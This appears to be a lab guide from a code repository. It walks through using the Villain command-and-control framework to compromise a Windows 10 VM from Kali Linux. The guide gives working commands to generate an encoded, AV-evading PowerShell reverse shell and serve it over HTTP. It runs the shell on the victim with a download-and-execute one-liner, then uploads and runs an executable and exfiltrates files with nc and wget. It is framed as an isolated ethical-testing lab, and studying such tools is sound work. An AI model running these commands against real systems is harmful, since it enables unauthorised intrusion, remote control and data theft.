 # Simple Villain Framework Lab Guide

A step-by-step lab using **Kali Linux** (attacker) and **Windows 10** (victim) in VirtualBox, from payload gen to file transfers.

---

## 1. VirtualBox VM & Networking Setup

1. **Create VMs** in VirtualBox:

   * **Kali Linux**
   * **Windows 10**
2. **Set both adapters** to an **Internal Network** (or Host-Only) named `LabNet`.
3. **Assign static IPs** on the same `/24` subnet:

   * **Kali** (terminal):

     ```bash
     sudo ip addr add 192.168.56.10/24 dev eth0
     sudo ip link set eth0 up
     ```
   * **Windows 10** (Control Panel → Network Adapter → IPv4 settings):

     ```text
     IP address:    192.168.56.20
     Subnet mask:   255.255.255.0
     Gateway/DNS:   (leave blank)
     ```
4. **Verify connectivity**:

   ```bash
   # On Kali
   ping 192.168.56.20
   ```

   You should see replies.

---

## 2. Prepare Kali Attacker

1. **Update & upgrade**:

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```
2. **Clone Villain**:

   ```bash
   git clone https://github.com/keralahacker/Villain.git
   cd Villain
   ```

   > If GitHub is blocked (e.g. college Wi‑Fi), use a VPN or your phone’s hotspot.
3. **Install Python deps**:

   ```bash
   pip install -r requirements.txt
   ```
   ```bash
   sudo pip install -r requirements.txt --break-system-packages
   ```
   If it fails, skip to next step.
4. **Start Villain**:

   ```bash
   python3 Villain.py
   ```

   You’ll see the `villain>` prompt.

---

## 3. Build & Deliver Your Payload

### 3.1 Generate the reverse shell

```
villain> generate payload=<OS/handler/template> lhost=<YOUR_IP_or_interface> [encode|obfuscate]
```

| Element       | Meaning                      | Example                   |
| ------------- | ---------------------------- | ------------------------- |
| `OS`          | Target OS family             | `windows`                 |
| `handler`     | Connection type              | `reverse_tcp` (stable)    |
| `template`    | Payload script               | `powershell`              |
| `lhost`       | Your Kali IP or interface    | `192.168.56.10` or `eth0` |
| `[encode]`    | Simple Base64-style encoding | optional (helps evade AV) |
| `[obfuscate]` | String-twisting for stealth  | optional                  |

**Example:**

```bash
villain> generate payload=windows/reverse_tcp/powershell lhost=192.168.56.10 encode
```

This writes `payload.ps1` for the Windows VM.

### 3.2 Host & run the payload

1. **On Kali**, serve it over HTTP:

   ```bash
   cp Core/payloads/windows/reverse_tcp/powershell.ps1 ~/payload.ps1
   cd ~
   python3 -m http.server 8000
   ```
2. **On Windows 10** (PowerShell as Admin):

   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10:8000/payload.ps1')
   ```

   This runs the reverse shell back to Kali.

---

## 4. Catch & Use Your Shell

1. **List sessions**:

   ```bash
   villain> sessions
   ```
2. **Enter the shell**:

   ```bash
   villain> shell <SESSION_ID>
   ```

   You get a `PS C:\>` prompt. Use `exit` or Ctrl+C to return.

---

## 5. Uploading Files to the Victim

```
villain> upload <local_path_on_kali> <remote_path_on_windows>
```

* **Example:**

  ```bash
  villain> upload /home/kali/tools/malware.exe C:\Users\Public\malware.exe
  ```
* Then inside your shell:

  ```powershell
  PS C:\> & 'C:\Users\Public\malware.exe'
  ```

---

## 6. Downloading Files from the Victim

Villain has no built-in “download,” but you can exfiltrate:

1. **On Kali**, listen:

   ```bash
   nc -lvp 9001 > secret.txt
   ```
2. **In Windows shell:**

   ```powershell
   PS C:\> nc 192.168.56.10 9001 < C:\Users\Public\secret.txt
   ```

Alternatively, spin up an HTTP server on Windows:

```powershell
PS C:\Users\Public> python3 -m http.server 8000
```

Then on Kali:

```bash
wget http://192.168.56.20:8000/secret.txt -O secret.txt
```

---

## 7. Cleaning Up & Tips

* **flee**: Exit without killing sessions:

  ```bash
  villain> flee
  ```
* **purge**: Wipe saved implant metadata:

  ```bash
  villain> purge
  ```

**Pro Tips:**

* Verify your **lhost** and subnet before generating.
* Use `backdoors` to list re-usable payloads.
* Keep Kali’s firewall off on the lab network.

---

## 8. Broadcast Messages with `#`

You can send a chat message to all connected sibling servers by prefixing with `#`:

```bash
villain> # Hey team, switch to backup C2 channel
```

---

That’s the full lab: network setup, payload gen, shell, file IO, and messaging. Enjoy your ethical testing!
